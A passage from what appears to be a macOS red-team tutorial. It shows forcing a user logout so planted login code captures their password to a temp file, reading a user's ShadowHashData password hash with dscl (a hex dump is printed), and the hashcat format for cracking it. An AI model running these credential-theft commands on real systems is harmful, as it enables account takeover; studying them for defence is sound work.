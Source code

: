 you can force logout the user via the following command.

```bash
sudo launchctl bootout user/$(id -u <username>)
```

when they log back in, the code will have executed and the password will be at `/private/tmp/password.txt`!

just some notes on this method, if you're experimenting: modifying the login process is quite risky, and potentially dangerous. if you're not sure what you're doing, you could prevent anybody from logging in (including yourself) via the login screen.

## credential access via ShadowHashData

`ShadowHashData` is a mechanism in macOS used to store hashed password data for user accounts. it's stored as binary `.plist` files for each user account in `/var/db/dslocal/nodes/Default/users/`. 

you can extract it via `default` or `dscl` utilities.

```bash
$ sudo dscl . read /Users/$USERNAME ShadowHashData

dsAttrTypeNative:ShadowHashData:
 62706c69 73743030 d2010203 0a5f101e 5352502d 52464335 3035342d 34303936 2d534841 3531322d 50424b44 46325f10 1453414c 5445442d 53484135 31322d50 424b4446 32d30405 06070809 58766572 69666965 72547361 6c745a69 74657261 74696f6e 734f1102 004350d6 29ecef1f 122a15ae ee030fa6 fa552525 6994b148 c9bdb3e0 bb652c88 0b82b334 4886ac55 9f04e045 bb494aea e73a5914 b68eb607 fd812f54 1c6ce2f5 c773be52 77c471bc 89df7ebd 0a0298b9 aa407330 e92816bf 732c10b0 09922f04 628fe872 b1b37778 0bd8221c d3487bee 42cf6a15 67802d13 4db26656 d0f2c17f 7c3ed954 c9fe56b8 615553a7 931ec655 4f526f5c c4541874 795b9b77 ce69d038 3380f493 c49d84ce 6e3f5d1c 0bb3df13 8bb379fb 99473936 817ba675 0409b97d 7026ab75 3778473c a51926a2 b1745b72 28285997 524e7ef0 4821f41e f6e1979f 88c0a2c1 103773d4 cc69b5e5 0515be57 7c901e6b 3abae24f 7716b146 c3763881 d1c41f79 3dee9577 3f66f969 db2ab6bb 331bd518 438e1d56 1e314fa1 c78ea486 ff7f09db 5bb94565 5406ff15 597396cb 6b4832bf 2baab2e8 3f9ed76f e6c0e11a 130f5403 59c2b47c 33b78f4f 0b969805 47ff5030 149a94e7 37fcf4a4 1d6e1837 d31e26ff 6c4de92f 5c0bce93 d9498299 a0d15668 2557da09 748c24a0 c20bc995 8b119c85 92f8c319 f17ac5c8 6631b9d8 11803fb6 ca2af51b 3ab52af7 354f61e1 87dcc684 57259217 32343cdd 200ec9bd fdb38f6a 3ffb135c 3d095b3d e40ac620 a3975056 ca8ee84a 175198b0 8c471e54 d2637140 eaaf40a8 673c8f70 b5fc4033 77a46b8b 0c65a69f 3817b8de fa028a7c 146705d6 1000652c dd4a6dce bf0d7aaf 2a4f1020 ba98c293 c1461cf9 c4df9952 569b14b9 1ff176e0 eddaee7c a4583f2d 097287c1 1200022e 09d30b05 060c0d09 57656e74 726f7079 4f1080e9 a36c9b06 438acd06 8982b946 ffa90aac e01574e3 cf98628c 4348784e 1630f0de 9e018c55 77d5d376 cc335136 57d3a593 e1fa565c 53b4a3fd 7dc1599e 2e60b3e1 f815a1d2 612f86cf 6e26d143 a0f202cc 5c0182a9 ea973682 cfd7859e 82ebc85b abdc8be1 845d26ce bb4a3594 f1654b86 e8476c4e 7d566916 0ae8c052 3491a94f 10205a83 6c31ba4a a34077d9 67368267 d314ddfa 2808e96e 6b58119a 26df3f67 c8c40008 000d002e 0045004c 0055005a 00650269 028c0291 029802a0 03230000 00000000 02010000 00000000 000e0000 00000000 00000000 00000000 0346
```

this contains the hashing algorithm (like PBKDF2), the number of iterations, the salt, and **entropy** (i.e. the actual hashed password.)

you can attempt to crack this using `hashcat`, with the form `$ml$[iterations]$[salt]$[entropy]`, but this will be painfully slow.

instead, we can use [Orchard](https://github.com/its-a-feature/Orchard/blob/master/Orchard.js) to leverage JXA (JavaScript for Automation) to do some enumeration.
